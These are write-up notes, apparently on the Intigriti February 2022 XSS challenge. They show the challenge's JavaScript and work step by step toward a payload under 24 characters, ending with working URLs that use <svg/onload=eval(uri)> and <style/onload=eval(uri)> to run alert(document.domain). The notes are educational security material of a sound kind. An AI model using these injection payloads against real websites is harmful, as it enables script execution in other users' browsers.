 link: https://challenge-0222.intigriti.io/challenge/xss.html<br>
Author: Huli https://twitter.com/aszx87410

+ how the query looks like: https://challenge-0222.intigriti.io/challenge/xss.html?q=avu&first=yes
```
window.name = 'XSS(eXtreme Short Scripting) Game'

    function showModal(title, content) {
      var titleDOM = document.querySelector('#main-modal h3')
      var contentDOM = document.querySelector('#main-modal p')
      titleDOM.innerHTML = title
      contentDOM.innerHTML = content
      window['main-modal'].classList.remove('hide')
    }

    window['main-form'].onsubmit = function(e) {
      e.preventDefault()
      var inputName = window['name-field'].value
      var isFirst = document.querySelector('input[type=radio]:checked').value
      if (!inputName.length) {
        showModal('Error!', "It's empty")
        return
      }

      if (inputName.length > 24) {
        showModal('Error!', "Length exceeds 24, keep it short!")
        return
      }

      window.location.search = "?q=" + encodeURIComponent(inputName) + '&first=' + isFirst
    }

    if (location.href.includes('q=')) {
      var uri = decodeURIComponent(location.href)
      var qs = uri.split('&first=')[0].split('?q=')[1]
      if (qs.length > 24) {
        showModal('Error!', "Length exceeds 24, keep it short!")
      } else {
        showModal('Welcome back!', qs)
      }
    }
```
+ It’s just extracting the query string q and checking its length, then putting it into HTML.
+ The challenge here is the length limit, you can only insert HTML with no more than 24 characters.
+ The shortest payload on TinyXSS is <svg/onload=eval(name)> which is 23 in length, but it doesn’t work because of this line: window.name = 'XSS(eXtreme Short Scripting) Game', it prevents the payload from window.name.
+ <svg/onload=eval(URL)> with the URL: https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Csvg/onload=eval(URL)%3E&first=1#%0aalert(1)
+ but url is encoded
```
if (location.href.includes('q=')) {
  var uri = decodeURIComponent(location.href)
  var qs = uri.split('&first=')[0].split('?q=')[1]
  if (qs.length > 24) {
    showModal('Error!', "Length exceeds 24, keep it short!")
  } else {
    showModal('Welcome back!', qs)
  }
}
```
+ lthough the variable uri is declared inside the if block, it’s still a global variable because var is function-scoped or globally scoped, not block-scoped.
+ uri is a decoded URL, our %0a turns into \n, a new line character! So, just replace the payload from eval(URL) to eval(uri), the payload works now: `https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Csvg/onload=eval(uri)%3E&first=1#%0aalert(1)`
+ it’s not hard to find out that <style> can be used instead of <svg>, here is the final payload: `https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=1#%0aalert(document.domain)`

